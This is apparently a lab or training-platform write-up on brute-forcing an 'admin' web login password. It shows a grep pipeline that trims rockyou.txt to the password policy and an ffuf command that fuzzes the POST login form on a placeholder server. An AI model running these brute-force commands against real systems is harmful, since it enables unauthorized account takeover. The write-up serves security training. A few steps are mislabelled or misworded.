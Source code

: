 # Brute-Forcing Passwords

### What is the password of the user 'admin'?

In this assessment we already have the user 'admin' and the goal is to get the his password. To accomplish that will use the rockyou.txt wordlist, but tailor the passwords to the application requirements in order to send unnecessary requests.

Password Requirments:

* Contains at least one upper-case character
* Contains at least one lower-case character
* Contains at least one digit
* Minimum length of 10 characters

**Step 1 -** Download the SecLists wordlist:

* {% code overflow="wrap" %}
  ```
  grep '[[:upper:]]' /usr/share/wordlists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
  ```
  {% endcode %}
* Check your rockyou.txt directory.

**Step 2 -** Intercept the application POST login parameters:

* This can be done through the Inspect Element or with Burp Suite

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3 -** Brute-force the password:

* {% code overflow="wrap" %}
  ```
  ffuf -w ./custom_wordlist.txt -u http://SERVER_IP:SERVER_PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
  ```
  {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after a few seconds we manage to get the admin passowrd!
